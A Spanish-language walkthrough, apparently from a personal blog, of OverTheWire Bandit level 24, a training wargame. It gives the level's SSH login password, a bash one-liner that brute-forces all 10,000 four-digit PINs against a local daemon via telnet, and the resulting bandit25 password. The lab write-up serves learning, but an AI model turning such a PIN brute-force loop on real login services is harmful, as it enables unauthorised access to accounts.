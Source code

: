 ```yaml
---
title: Bandit-24
published: true
---
```


## [](#header-1)Login

```bash
sshpass -p UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ \
ssh bandit24@bandit.labs.overthewire.org -p2220
```

## [](#header-1)Level Goal

```
A daemon is listening on port 30002 and will give you the password for bandit25
if given the password for bandit24 and a secret numeric 4-digit pincode. 
There is no way to retrieve the pincode except by going through all of the 10000 combinations,
called brute-forcing.
```

Vemos que haciendo un telnet al puerto 30002 nos responde

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 
and the secret pincode on a single line, separated by a space.
```

Nos solicita la pass de bandit24 y un código de 4 digitos. Hacemos una prueba

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
Wrong! Please enter the correct pincode. Try again.
```

Como dice el reto hay 10000 combinaciones, asi que vamos a automatizarlo con el siguiente
script en bash en una linea

```bash

# Hacemos una pausa de 0.05 para no tener problemas con telnet
# ejecutamos mediante un for un echo con la pass y el indice (0000-9999)
# y de ese echo lo ejecutamos via telnet

{ for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"; sleep 0.05;  done; } | telnet localhost 30002
```

La salida que muestra usando la fuerza bruta

```
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
Connection closed by foreign host.
```

La pass de bandit25 es:

```
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```




[Volver al archivo](archive)

